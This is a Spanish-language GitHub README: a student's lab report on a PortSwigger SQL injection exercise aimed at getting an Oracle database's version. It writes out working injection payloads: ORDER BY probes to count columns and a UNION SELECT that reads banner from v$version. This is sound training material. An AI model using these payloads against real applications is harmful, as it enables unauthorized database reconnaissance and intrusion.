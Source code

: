# Reto-Christian_Sangucho
Reto_Laboratio_SQLi

# README_CHRISTIAN_SANGUCHO_DIAZ
# INFORME LABORATORIO https://portswigger.net/

## Laboratorio:
Ataque de inyección SQL, consultando el tipo y la versión de la base de datos en Oracle

## Objetivo:
Conseguir la versión de Oracle

##Consulta Original: 
SELECT * FROM articles WHERE category = ‘Gifts’


## Consulta Manipulada:
Se busca el número de columnas con las siguientes instrucciones
‘ ORDER BY 1
‘ ORDER BY 2
‘ ORDER BY 3


! [Imagen búsqueda de número de columnas con error](https://github.com/christiansangucho/Reto-Christian_Sangucho/blob/main/Imagen%20b%C3%BAsqueda%20de%20n%C3%BAmero%20de%20columnas%20con%20error.png)
! [Imagen búsqueda de número de columnas](https://github.com/christiansangucho/Reto-Christian_Sangucho/blob/main/Imagen%20b%C3%BAsqueda%20de%20n%C3%BAmero%20de%20columnas.png)

## Consulta para obtener la versión de Oracle
=Gifts' UNION SELECT banner, 'NULL' FROM v$version--

! [Imagen de la Version Oracle](https://github.com/christiansangucho/Reto-Christian_Sangucho/blob/main/Imagen%20de%20la%20Version%20Oracle.png)
